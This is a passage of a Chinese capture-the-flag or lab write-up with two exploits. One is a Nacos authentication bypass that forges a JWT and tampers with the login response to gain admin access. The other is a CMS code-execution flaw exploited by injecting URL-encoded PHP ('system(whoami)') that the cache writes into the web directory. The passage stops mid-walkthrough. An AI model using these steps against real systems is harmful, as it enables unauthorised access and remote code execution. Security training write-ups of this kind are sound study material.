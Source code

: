     我这里生成了一个第二天的时间戳，然后替换到payload的exp中生成jwt编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqrAxgXqQWLibSic5sclzPMpk0NqxUqogVo8TFrTib46v0GCHXjEI3vajJg/640?wx_fmt=png&from=appmsg "")  
  
    接着返回至nacos登录处，抓取登录请求包，正常来说应该是403响应  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqmHvV3K27UqmrDKWrVX5ibJibicjGBs421STiatD2JVdZuo1uIXwZoZCuxg/640?wx_fmt=png&from=appmsg "")  
  
    重新抓取登录请求包，将响应包改为以下内容，其中accessToken为刚刚生成的jwt编码，接着一直放包，即可进入nacos系统，完成权限绕过漏洞  
```
HTTP/1.1 200 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcxMTIwODUxMn0.VE7vbwmpnUVLq8rvE8uZse37tpCvoTWX-9gtp4OoHQk
Content-Type: application/json;charset=UTF-8
Date: Wed, 08 Mar 2023 10:39:56 GMT
Connection: close
Content-Length: 162

{"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcxOTQ3NjAwNX0.6hiSbB9giLJNbBHtwTvj7QtMY5eRpjDT3v9FlIl8g6E","tokenTtl":18000,"globalAdmin":true}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqB7ROMFB4kJibh2h2L8Of5V2xZrCavKb8CjWtxmR6zHDYkzNkbrzFGqA/640?wx_fmt=png&from=appmsg "")  
  
    在配置列表中，Data ID名为fff的配置项，点击详情，查看到敏感信息，此处以flag代替  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqu5K2Ik3wIY5mZvtdWGEiasnF80DH31QJshf0TwCm4Dm7469oYjI5NLQ/640?wx_fmt=png&from=appmsg "")  
  
**渗透测试**  
  
    此处使用小皮面板搭建，相应WEB渗透端口为  
12345，渗透测试作为等保的一部分，需进行黑白盒测试，即为常见漏洞攻击和代码审计等，此处我们根据未公开漏洞：某CMS出现的代码执行漏洞进行复现，环境提供鸣谢道一安全  
  
```
相关分析文档下载地址:
https://ckxkzyk.lanzouo.com/iBw9m22s6ygj
```  
  
*** 技术仅供分享参考学习，请勿非法使用，违者后果自负**  
```
问: 根据搭建服务端口12345进行渗透测试，提交命令执行的whoami回显包
答: flag{www}
```  
  
    我们根据道一师傅给出的漏洞思路进行复现，开启缓存后，点击发布文章，抓包后找到info参数，此时需要将恶意代码进行url编码以绕过前端过滤  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqiaA8gCtACwRTshgfgax78RSaoZnWQyvzlba8YPhr58o9VU8yial22Y0w/640?wx_fmt=png&from=appmsg "")  
  
    题目要求，需要获取whoami的回显包，这里我用的：  
<?php system(whoami); ?>  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqlZ2BaAzgTomLNic9UQqmgJPOrwKUZFzcDUcMSQEkeHf63A8sYysRdCQ/640?wx_fmt=png&from=appmsg "")  
  
    然后将url编码替换掉info的的数据，放包后文章写入成功，这时候需要访问前台，在前台页面访问创建的那个文章以产生缓存，此时因开启了缓存，会将此代码以php的方式写入到wen目录下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpMZByJOhtKEoQicia3ic6eQhDqe6KF10LzagErayMSLgyIrjCzL7R5MJ2wCJMCnW6WyJjHYChDHrhyeA/640?wx_fmt=png&from=appmsg "")  
  